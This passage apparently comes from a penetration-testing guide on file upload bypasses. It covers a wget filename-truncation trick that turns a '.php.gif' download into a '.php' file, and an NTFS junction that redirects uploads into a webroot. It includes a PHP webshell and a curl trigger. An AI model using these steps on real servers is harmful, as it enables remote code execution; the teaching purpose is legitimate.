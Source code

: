 ```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```

Note that **another option** you may be thinking of to bypass this check is to make the **HTTP server redirect to a different file**, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This **won't work** **unless** wget is being used with the **parameter** `--trust-server-names` because **wget will download the redirected page with the name of the file indicated in the original URL**.

### Escaping upload directory via NTFS junctions (Windows)

(For this attack you will need local access to the Windows machine) When uploads are stored under per-user subfolders on Windows (e.g., C:\Windows\Tasks\Uploads\<id>\) and you control creation/deletion of that subfolder, you can replace it with a directory junction pointing to a sensitive location (e.g., the webroot). Subsequent uploads will be written into the target path, enabling code execution if the target interprets server‑side code.

Example flow to redirect uploads into XAMPP webroot:

```cmd
:: 1) Upload once to learn/confirm your per-user folder name (e.g., md5 of form fields)
::    Observe it on disk: C:\Windows\Tasks\Uploads\33d81ad509ef34a2635903babb285882

:: 2) Remove the created folder and create a junction to webroot
rmdir C:\Windows\Tasks\Uploads\33d81ad509ef34a2635903babb285882
cmd /c mklink /J C:\Windows\Tasks\Uploads\33d81ad509ef34a2635903babb285882 C:\xampp\htdocs

:: 3) Re-upload your payload; it lands under C:\xampp\htdocs
::    Minimal PHP webshell for testing
::    <?php echo shell_exec($_REQUEST['cmd']); ?>

:: 4) Trigger
curl "http://TARGET/shell.php?cmd=whoami"
```
